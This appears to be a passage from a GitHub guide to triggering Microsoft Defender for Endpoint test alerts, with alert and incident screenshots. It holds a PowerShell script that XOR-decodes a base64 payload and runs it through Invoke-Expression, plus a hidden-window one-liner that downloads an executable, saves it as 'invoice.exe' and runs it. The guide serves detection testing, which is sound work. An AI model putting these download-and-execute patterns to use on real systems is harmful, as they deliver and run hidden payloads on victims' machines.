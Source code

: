 ```powershell
}

# Download the file
Invoke-WebRequest -Uri $url -OutFile $destination

$xor = [System.Text.Encoding]::UTF8.GetBytes('WinATP-Intro-Injection')

$base64String = Get-Content -Path "C:\Temp\MTP_Fileless_Recon.txt"

Try {
    $contentBytes = [System.Convert]::FromBase64String($base64String)
} Catch {
    $contentBytes = [System.Convert]::FromBase64String($base64String.Substring(3))
}

$i = 0

$decryptedBytes = @()

$contentBytes.ForEach{
    $decryptedBytes += $_ -bxor $xor[$i]
    $i++
    if ($i -eq $xor.Length) {
        $i = 0
    }
}

Invoke-Expression ([System.Text.Encoding]::UTF8.GetString($decryptedBytes))
```


Alerts <br>
<img width="2130" alt="image" src="https://github.com/guguji666666/GJS-MDE/assets/96930989/8acbaa10-d61b-4e1a-9f1e-d4163a6deb33">

Incidents <br>
<img width="2142" alt="image" src="https://github.com/guguji666666/GJS-MDE/assets/96930989/d9af45ce-b65d-4ac0-a411-f750ed22d03f">

## 2. EDR alert 

[Generate EDR alert](https://learn.microsoft.com/en-us/microsoft-365/security/defender-endpoint/run-detection-test?view=o365-worldwide#verify-microsoft-defender-for-endpoint-onboarding-of-a-device-using-a-powershell-detection-test)

```cmd
powershell.exe -NoExit -ExecutionPolicy Bypass -WindowStyle Hidden $ErrorActionPreference = 'silentlycontinue';(New-Object System.Net.WebClient).DownloadFile('http://127.0.0.1/1.exe', 'C:\\test-MDATP-test\\invoice.exe');Start-Process 'C:\\test-MDATP-test\\invoice.exe'
```
